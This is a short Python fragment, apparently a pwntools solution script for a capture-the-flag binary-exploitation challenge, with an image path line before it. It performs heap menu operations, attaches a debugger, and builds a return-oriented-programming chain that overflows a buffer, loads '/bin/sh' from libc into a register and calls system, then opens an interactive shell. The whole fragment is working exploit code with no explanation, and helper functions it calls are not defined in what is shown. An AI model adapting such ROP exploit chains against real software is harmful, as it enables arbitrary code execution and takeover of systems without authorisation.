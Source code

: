 ```python

remove(payload, 0x400)
create("h", "A\x00", 0x40)

io.sendlineafter(">", str(4))

gdb.attach(io, gdbscript)
rop = ROP(libc)
off = 0x540-0x18
payload = b"A"*off
payload += p64(rop.rdi.address)
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(rop.ret.address)
payload += p64(libc.sym['system'])

io.sendline(payload)

io.interactive()
```